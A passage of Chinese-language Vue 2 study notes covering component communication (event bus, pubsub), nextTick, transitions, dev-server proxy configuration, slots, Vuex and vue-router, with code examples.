6. 若想让自定义事件只能触发一次，可以使用 `once` 修饰符，或 `$once` 方法。

7. 触发自定义事件：`this.$emit('atguigu',数据)`		

8. 解绑自定义事件 `this.$off('atguigu')`

9. 组件上也可以绑定原生 DOM 事件，需要使用 `native` 修饰符。

注意：通过 `this.$refs.xxx.$on('atguigu',回调)` 绑定自定义事件时，回调 `<span style="color:red">` 要么配置在 methods 中 `</span>`，`<span style="color:red">` 要么用箭头函数`</span>`，否则 this 指向会出问题！

## 任意组件间通信

适用于<font color="#faa755">任意组件间通信</font>的组件间通信的方式。

### 全局事件总线

安装全局事件总线：

```js
new Vue({
	beforeCreate() {
        // 安装全局事件总线，$bus就是当前应用的vm
		Vue.prototype.$bus = this 
	},
}) 
```

使用事件总线：

+ 接收数据：A 组件想接收数据，则在 A 组件中给 `$bus` 绑定自定义事件，事件的回调留在 A 组件自身。

    ```js
    methods(){
        demo(data){}
    }

    mounted() {
        this.$bus.$on('xxxx',this.demo)
    }
    ```

+ 提供数据：`this.$bus.$emit('xxxx',数据)`

最好在 beforeDestroy 钩子中，用 `$off` 去解绑当前组件所用到的事件。

### 消息订阅与发布

使用步骤：

1. 安装 pubsub：`npm i pubsub-js`

2. 引入：`import pubsub from 'pubsub-js'`

3. 接收数据：A 组件想接收数据，则在 A 组件中订阅消息，订阅的回调留在 A 组件自身。

   ```js
   methods(){
       demo(data){}
   }
   
   mounted() {
       // 订阅消息
       this.pid = pubsub.subscribe('xxx',this.demo) 
   }
   ```

4. 提供数据：`pubsub.publish('xxx',data)`

5. 最好在 beforeDestroy 钩子中，用 `pubsub.unsubscribe(pid)` 去取消订阅。

## nextTick

1. 语法：`this.$nextTick(回调函数)`
2. 作用：在下一次 DOM 更新结束后执行其指定的回调。
3. 什么时候用：当改变数据后，要基于更新后的新 DOM 进行某些操作时，要在 nextTick 所指定的回调函数中执行。

## Vue 封装的过度与动画

作用：在插入、更新或移除 DOM 元素时，在合适的时候给元素添加样式类名。

写法：

1. 准备好样式：

   - 元素进入的样式：
     1. v-enter：进入的起点
     2. v-enter-active：进入过程中
     3. v-enter-to：进入的终点
   - 元素离开的样式：
     1. v-leave：离开的起点
     2. v-leave-active：离开过程中
     3. v-leave-to：离开的终点

2. 使用 `<transition>` 包裹要过度的元素，并配置 name 属性：

   ```vue
   <transition name="hello">
   	<h1 v-show="isShow">你好啊！</h1>
   </transition>
   ```

3. 备注：若有多个元素需要过度，则需要使用：`<transition-group>`，且每个元素都要指定 `key` 值。

## Vue 脚手架配置代理

### 方法一

在 vue.config.js 中添加如下配置：

```js
devServer:{
  proxy:"http://localhost:5000"
}
```

说明：

1. 优点：配置简单，请求资源时直接发给前端（8080）即可。
2. 缺点：不能配置多个代理，不能灵活的控制请求是否走代理。
3. 工作方式：若按照上述配置代理，当请求了前端不存在的资源时，那么该请求会转发给服务器 （优先匹配前端资源）

### 方法二

编写 vue.config.js 配置具体代理规则：

```js
module.exports = {
	devServer: {
      proxy: {
      '/api1': {// 匹配所有以 '/api1'开头的请求路径
        target: 'http://localhost:5000',// 代理目标的基础路径
        changeOrigin: true,
        pathRewrite: {'^/api1': ''}
      },
      '/api2': {// 匹配所有以 '/api2'开头的请求路径
        target: 'http://localhost:5001',// 代理目标的基础路径
        changeOrigin: true,
        pathRewrite: {'^/api2': ''}
      }
    }
  }
} 
/*
   changeOrigin设置为true时，服务器收到的请求头中的host为：localhost:5000
   changeOrigin设置为false时，服务器收到的请求头中的host为：localhost:8080
   changeOrigin默认值为true
*/
```

说明：

1. 优点：可以配置多个代理，且可以灵活的控制请求是否走代理。
2. 缺点：配置略微繁琐，请求资源时必须加前缀。


## 插槽

1. 作用：让父组件可以向子组件指定位置插入html结构，也是一种组件间通信的方式，适用于 <strong style="color:red">父组件 ===> 子组件</strong> 。

2. 分类：默认插槽、具名插槽、作用域插槽

3. 使用方式：

   1. 默认插槽：

      ```vue
      父组件中：
              <Category>
                 <div>html结构1</div>
              </Category>
      子组件中：
              <template>
                  <div>
                     <!-- 定义插槽 -->
                     <slot>插槽默认内容...</slot>
                  </div>
              </template>
      ```

   2. 具名插槽：

      ```vue
      父组件中：
              <Category>
                  <template slot="center">
                    <div>html结构1</div>
                  </template>
      
                  <template v-slot:footer>
                     <div>html结构2</div>
                  </template>
              </Category>
      子组件中：
              <template>
                  <div>
                     <!-- 定义插槽 -->
                     <slot name="center">插槽默认内容...</slot>
                     <slot name="footer">插槽默认内容...</slot>
                  </div>
              </template>
      ```

   3. 作用域插槽：

      1. 理解：<span style="color:red">数据在组件的自身，但根据数据生成的结构需要组件的使用者来决定。</span>（games数据在Category组件中，但使用数据所遍历出来的结构由App组件决定）

      2. 具体编码：

         ```vue
         父组件中：
         		<Category>
         			<template scope="scopeData">
         				<!-- 生成的是ul列表 -->
         				<ul>
         					<li v-for="g in scopeData.games" :key="g">{{g}}</li>
         				</ul>
         			</template>
         		</Category>
         
         		<Category>
         			<template slot-scope="scopeData">
         				<!-- 生成的是h4标题 -->
         				<h4 v-for="g in scopeData.games" :key="g">{{g}}</h4>
         			</template>
         		</Category>
         子组件中：
                 <template>
                     <div>
                         <slot :games="games"></slot>
                     </div>
                 </template>
         		
                 <script>
                     export default {
                         name:'Category',
                         props:['title'],
                         //数据在子组件自身
                         data() {
                             return {
                                 games:['红色警戒','穿越火线','劲舞团','超级玛丽']
                             }
                         },
                     }
                 </script>
         ```

## Vuex

### 1.概念

在Vue中实现集中式状态（数据）管理的一个Vue插件，对vue应用中多个组件的共享状态进行集中式的管理（读/写），也是一种组件间通信的方式，且适用于任意组件间通信。

### 2.何时使用？

多个组件需要共享数据时

### 3.搭建vuex环境

1. 创建文件：```src/store/index.js```

   ```js
   //引入Vue核心库
   import Vue from 'vue'
   //引入Vuex
   import Vuex from 'vuex'
   //应用Vuex插件
   Vue.use(Vuex)
   
   //准备actions对象——响应组件中用户的动作
   const actions = {}
   //准备mutations对象——修改state中的数据
   const mutations = {}
   //准备state对象——保存具体的数据
   const state = {}
   
   //创建并暴露store
   export default new Vuex.Store({
   	actions,
   	mutations,
   	state
   })
   ```

2. 在```main.js```中创建vm时传入```store```配置项

   ```js
   ......
   //引入store
   import store from './store'
   ......
   
   //创建vm
   new Vue({
   	el:'#app',
   	render: h => h(App),
   	store
   })
   ```

###    4.基本使用

1. 初始化数据、配置```actions```、配置```mutations```，操作文件```store.js```

   ```js
   //引入Vue核心库
   import Vue from 'vue'
   //引入Vuex
   import Vuex from 'vuex'
   //引用Vuex
   Vue.use(Vuex)
   
   const actions = {
       //响应组件中加的动作
   	jia(context,value){
   		// console.log('actions中的jia被调用了',miniStore,value)
   		context.commit('JIA',value)
   	},
   }
   
   const mutations = {
       //执行加
   	JIA(state,value){
   		// console.log('mutations中的JIA被调用了',state,value)
   		state.sum += value
   	}
   }
   
   //初始化数据
   const state = {
      sum:0
   }
   
   //创建并暴露store
   export default new Vuex.Store({
   	actions,
   	mutations,
   	state,
   })
   ```

2. 组件中读取vuex中的数据：```$store.state.sum```

3. 组件中修改vuex中的数据：```$store.dispatch('action中的方法名',数据)``` 或 ```$store.commit('mutations中的方法名',数据)```

   >  备注：若没有网络请求或其他业务逻辑，组件中也可以越过actions，即不写```dispatch```，直接编写```commit```

### 5.getters的使用

1. 概念：当state中的数据需要经过加工后再使用时，可以使用getters加工。

2. 在```store.js```中追加```getters```配置

   ```js
   ......
   
   const getters = {
   	bigSum(state){
   		return state.sum * 10
   	}
   }
   
   //创建并暴露store
   export default new Vuex.Store({
   	......
   	getters
   })
   ```

3. 组件中读取数据：```$store.getters.bigSum```

### 6.四个map方法的使用

1. <strong>mapState方法：</strong>用于帮助我们映射```state```中的数据为计算属性

   ```js
   computed: {
       //借助mapState生成计算属性：sum、school、subject（对象写法）
        ...mapState({sum:'sum',school:'school',subject:'subject'}),
            
       //借助mapState生成计算属性：sum、school、subject（数组写法）
       ...mapState(['sum','school','subject']),
   },
   ```

2. <strong>mapGetters方法：</strong>用于帮助我们映射```getters```中的数据为计算属性

   ```js
   computed: {
       //借助mapGetters生成计算属性：bigSum（对象写法）
       ...mapGetters({bigSum:'bigSum'}),
   
       //借助mapGetters生成计算属性：bigSum（数组写法）
       ...mapGetters(['bigSum'])
   },
   ```

3. <strong>mapActions方法：</strong>用于帮助我们生成与```actions```对话的方法，即：包含```$store.dispatch(xxx)```的函数

   ```js
   methods:{
       //靠mapActions生成：incrementOdd、incrementWait（对象形式）
       ...mapActions({incrementOdd:'jiaOdd',incrementWait:'jiaWait'})
   
       //靠mapActions生成：incrementOdd、incrementWait（数组形式）
       ...mapActions(['jiaOdd','jiaWait'])
   }
   ```

4. <strong>mapMutations方法：</strong>用于帮助我们生成与```mutations```对话的方法，即：包含```$store.commit(xxx)```的函数

   ```js
   methods:{
       //靠mapActions生成：increment、decrement（对象形式）
       ...mapMutations({increment:'JIA',decrement:'JIAN'}),
       
       //靠mapMutations生成：JIA、JIAN（对象形式）
       ...mapMutations(['JIA','JIAN']),
   }
   ```

> 备注：mapActions与mapMutations使用时，若需要传递参数需要：在模板中绑定事件时传递好参数，否则参数是事件对象。


### 7.模块化+命名空间

1. 目的：让代码更好维护，让多种数据分类更加明确。

2. 修改```store.js```

   ```javascript
   const countAbout = {
     namespaced:true,//开启命名空间
     state:{x:1},
     mutations: { ... },
     actions: { ... },
     getters: {
       bigSum(state){
          return state.sum * 10
       }
     }
   }
   
   const personAbout = {
     namespaced:true,//开启命名空间
     state:{ ... },
     mutations: { ... },
     actions: { ... }
   }
   
   const store = new Vuex.Store({
     modules: {
       countAbout,
       personAbout
     }
   })
   ```

3. 开启命名空间后，组件中读取state数据：

   ```js
   //方式一：自己直接读取
   this.$store.state.personAbout.list
   //方式二：借助mapState读取：
   ...mapState('countAbout',['sum','school','subject']),
   ```

4. 开启命名空间后，组件中读取getters数据：

   ```js
   //方式一：自己直接读取
   this.$store.getters['personAbout/firstPersonName']
   //方式二：借助mapGetters读取：
   ...mapGetters('countAbout',['bigSum'])
   ```

5. 开启命名空间后，组件中调用dispatch

   ```js
   //方式一：自己直接dispatch
   this.$store.dispatch('personAbout/addPersonWang',person)
   //方式二：借助mapActions：
   ...mapActions('countAbout',{incrementOdd:'jiaOdd',incrementWait:'jiaWait'})
   ```

6. 开启命名空间后，组件中调用commit

   ```js
   //方式一：自己直接commit
   this.$store.commit('personAbout/ADD_PERSON',person)
   //方式二：借助mapMutations：
   ...mapMutations('countAbout',{increment:'JIA',decrement:'JIAN'}),
   ```

 ## 路由

1. 理解： 一个路由（route）就是一组映射关 系（key - value），多个路由需要路由器（router）进行管理。
2. 前端路由：key是路径，value是组件。

### 1.基本使用

1. 安装vue-router，命令：```npm i vue-router```

2. 应用插件：```Vue.use(VueRouter)```

3. 编写router配置项:

   ```js
   //引入VueRouter
   import VueRouter from 'vue-router'
   //引入Luyou 组件
   import About from '../components/About'
   import Home from '../components/Home'
   
   //创建router实例对象，去管理一组一组的路由规则
   const router = new VueRouter({
   	routes:[
   		{
   			path:'/about',
   			component:About
   		},
   		{
   			path:'/home',
   			component:Home
   		}
   	]
   })
   
   //暴露router
   export default router
   ```

4. 实现切换（active-class可配置高亮样式）

   ```vue
   <router-link active-class="active" to="/about">About</router-link>
   ```

5. 指定展示位置

   ```vue
   <router-view></router-view>
   ```

### 2.几个注意点

1. 路由组件通常存放在```pages```文件夹，一般组件通常存放在```components```文件夹。
2. 通过切换，“隐藏”了的路由组件，默认是被销毁掉的，需要的时候再去挂载。
3. 每个组件都有自己的```$route```属性，里面存储着自己的路由信息。
4. 整个应用只有一个router，可以通过组件的```$router```属性获取到。

### 3.多级路由（多级路由）

1. 配置路由规则，使用children配置项：

   ```js
   routes:[
   	{
   		path:'/about',
   		component:About,
   	},
   	{
   		path:'/home',
   		component:Home,
   		children:[ //通过children配置子级路由
   			{
   				path:'news', //此处一定不要写：/news
   				component:News
   			},
   			{
   				path:'message',//此处一定不要写：/message
   				component:Message
   			}
   		]
   	}
   ]
   ```

2. 跳转（要写完整路径）：

   ```vue
   <router-link to="/home/news">News</router-link>
   ```

### 4.路由的query参数

1. 传递参数

   ```vue
   <!-- 跳转并携带query参数，to的字符串写法 -->
   <router-link :to="/home/message/detail?id=666&title=你好">跳转</router-link>
   				
   <!-- 跳转并携带query参数，to的对象写法 -->
   <router-link 
   	:to="{
   		path:'/home/message/detail',
   		query:{
   		   id:666,
               title:'你好'
   		}
   	}"
   >跳转</router-link>
   ```

2. 接收参数：

   ```js
   $route.query.id
   $route.query.title
   ```

### 5.命名路由

1. 作用：可以简化路由的跳转。

2. 如何使用

   1. 给路由命名：

      ```js
      {
      	path:'/demo',
      	component:Demo,
      	children:[
      		{
      			path:'test',
      			component:Test,
      			children:[
      				{
                            name:'hello' //给路由命名
      					path:'welcome',
      					component:Hello,
      				}
      			]
      		}
      	]
      }
      ```

   2. 简化跳转：

      ```vue
      <!--简化前，需要写完整的路径 -->
      <router-link to="/demo/test/welcome">跳转</router-link>
      
      <!--简化后，直接通过名字跳转 -->
      <router-link :to="{name:'hello'}">跳转</router-link>
      
      <!--简化写法配合传递参数 -->
      <router-link 
      	:to="{
      		name:'hello',
      		query:{
      		   id:666,
                  title:'你好'
      		}
      	}"
      >跳转</router-link>
      ```

### 6.路由的params参数

1. 配置路由，声明接收params参数

   ```js
   {
   	path:'/home',
   	component:Home,
   	children:[
   		{
   			path:'news',
   			component:News
   		},
   		{
   			component:Message,
   			children:[
   				{
   					name:'xiangqing',
   					path:'detail/:id/:title', //使用占位符声明接收params参数
   					component:Detail
   				}
   			]
   		}
   	]
   }
   ```

2. 传递参数

   ```vue
   <!-- 跳转并携带params参数，to的字符串写法 -->
   <router-link :to="/home/message/detail/666/你好">跳转</router-link>
   				
   <!-- 跳转并携带params参数，to的对象写法 -->
   <router-link 
   	:to="{
   		name:'xiangqing',
   		params:{
   		   id:666,
               title:'你好'
   		}
   	}"
   >跳转</router-link>
   ```

   > 特别注意：路由携带params参数时，若使用to的对象写法，则不能使用path配置项，必须使用name配置！

3. 接收参数：

   ```js
   $route.params.id
   $route.params.title
   ```

### 7.路由的props配置

	作用：让路由组件更方便的收到参数

```js
{
	name:'xiangqing',
	path:'detail/:id',
	component:Detail,

	//第一种写法：props值为对象，该对象中所有的key-value的组合最终都会通过props传给Detail组件
	// props:{a:900}

	//第二种写法：props值为布尔值，布尔值为true，则把路由收到的所有params参数通过props传给Detail组件
	// props:true
	
	//第三种写法：props值为函数，该函数返回的对象中每一组key-value都会通过props传给Detail组件
	props(route){
		return {
			id:route.query.id,
			title:route.query.title
		}
	}
}
```

### 8.```<router-link>```的replace属性

1. 作用：控制路由跳转时操作浏览器历史记录的模式
2. 浏览器的历史记录有两种写入方式：分别为```push```和```replace```，```push```是追加历史记录，```replace```是替换当前记录。路由跳转时候默认为```push```
3. 如何开启```replace```模式：```<router-link replace .......>News</router-link>```

### 9.编程式路由导航

1. 作用：不借助```<router-link> ```实现路由跳转，让路由跳转更加灵活

2. 具体编码：

   ```js
   //$router的两个API
   this.$router.push({
   	name:'xiangqing',
   		params:{
   			id:xxx,
   			title:xxx
   		}
   })
   
   this.$router.replace({
   	name:'xiangqing',
   		params:{
   			id:xxx,
   			title:xxx
   		}
   })
   this.$router.forward() //前进
   this.$router.back() //后退
   this.$router.go() //可前进也可后退
   ```

### 10.缓存路由组件

1. 作用：让不展示的路由组件保持挂载，不被销毁。

2. 具体编码：

   ```vue
   <keep-alive include="News"> 
       <router-view></router-view>
   </keep-alive>
   ```

### 11.两个新的生命周期钩子

1. 作用：路由组件所独有的两个钩子，用于捕获路由组件的激活状态。
2. 具体名字：
   1. ```activated```路由组件被激活时触发。
   2. ```deactivated```路由组件失活时触发。

### 12.路由守卫

1. 作用：对路由进行权限控制

2. 分类：全局守卫、独享守卫、组件内守卫

3. 全局守卫:

   ```js
   //全局前置守卫：初始化时执行、每次路由切换前执行
   router.beforeEach((to,from,next)=>{
   	console.log('beforeEach',to,from)
   	if(to.meta.isAuth){ //判断当前路由是否需要进行权限控制
   		if(localStorage.getItem('school') === 'atguigu'){ //权限控制的具体规则
   			next() //放行
   		}else{
   			alert('暂无权限查看')
   			// next({name:'guanyu'})
   		}
   	}else{
   		next() //放行
   	}
   })
   
   //全局后置守卫：初始化时执行、每次路由切换后执行
   router.afterEach((to,from)=>{
   	console.log('afterEach',to,from)
   	if(to.meta.title){ 
   		document.title = to.meta.title //修改网页的title
   	}else{
   		document.title = 'vue_test'
   	}
   })
   ```

4. 独享守卫:

   ```js
   beforeEnter(to,from,next){
   	console.log('beforeEnter',to,from)
   	if(to.meta.isAuth){ //判断当前路由是否需要进行权限控制
   		if(localStorage.getItem('school') === 'atguigu'){
   			next()
   		}else{
   			alert('暂无权限查看')
   			// next({name:'guanyu'})
   		}
   	}else{
   		next()
   	}
   }
   ```

5. 组件内守卫：

   ```js
   //进入守卫：通过路由规则，进入该组件时被调用
   beforeRouteEnter (to, from, next) {
   },
   //离开守卫：通过路由规则，离开该组件时被调用
   beforeRouteLeave (to, from, next) {
   }
   ```

### 13.路由器的两种工作模式


1. 对于一个url来说，什么是hash值？—— #及其后面的内容就是hash值。
2. hash值不会包含在 HTTP 请求中，即：hash值不会带给服务器。
3. hash模式：
   1. 地址中永远带着#号，不美观 。
   2. 若以后将地址通过第三方手机app分享，若app校验严格，则地址会被标记为不合法。
   3. 兼容性较好。
4. history模式：
   1. 地址干净，美观 。
   2. 兼容性和hash模式相比略差。
   3. 应用部署上线时需要后端人员支持，解决刷新页面服务端404的问题。


